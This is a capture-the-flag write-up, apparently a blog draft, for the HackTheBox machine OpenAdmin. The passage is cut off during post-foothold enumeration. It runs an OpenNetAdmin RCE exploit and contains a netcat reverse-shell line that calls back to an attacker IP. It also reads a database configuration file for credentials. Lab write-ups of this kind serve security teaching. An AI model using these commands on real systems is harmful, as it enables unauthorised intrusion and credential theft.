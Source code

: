 ```yaml
---
title: "OpenAdmin HTB [Easy/Medium]"
date: 2020-01-06T20:55:28-05:00
draft: true
description: "OpenAdmin is an 'Easy' machine on HackTheBox. I say easy because this box will certainly be challenging for a beginner, but it is a good learning experience."
---
```


OpenAdmin is an "Easy" machine on HackTheBox. I say easy because this box will certainly be challenging for a beginner, but it is a good learning experience.

## Host Information:
IP: 10.10.10.171
Hostname: openadmin 
External Ports: 22, 80

## Summary:

OpenNetAdmin application on port 80 under /ona/login.php is vulnerable to a publically available RCE. Exploitation permits she'll access as the www-data user. Credential reuse vulnerability between the mysql database permits for secure shell access over port 22 as the jimmy user. The jimmy user is able to access a local webserver that can be accessed via portforwarding, exposing the web application to session cookie tampering. This cookie tampering leaks the secure shell private key of the joanna user. Authenticating as the joanna user over SSH allows for privilege escalation via sudo nano. 

## Attack Path
================

**Service Enumeration**

nmap --open -p- -v -n 10.10.10.171 | tee nnap-open-ports

Clicking through the various web applications, eventually allows us to navigate to /music -> login revealing an administrative portal at /ona. 
```bash
searchsploit opennetadmin
searchsploit -m 47772
```

**Initial Foothold**
```bash
chmod +x 47772.sh
./47772.sh http://10.10.10.171/ona/login.php
$ mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc 10.10.14.2 443 1>/tmp/backpipe
```
**www-data Enumeration**  

whoami
www-data

cat /opt/ona/.gitignore  
cd www/local  
cd config  
cat database_settings.inc.php  
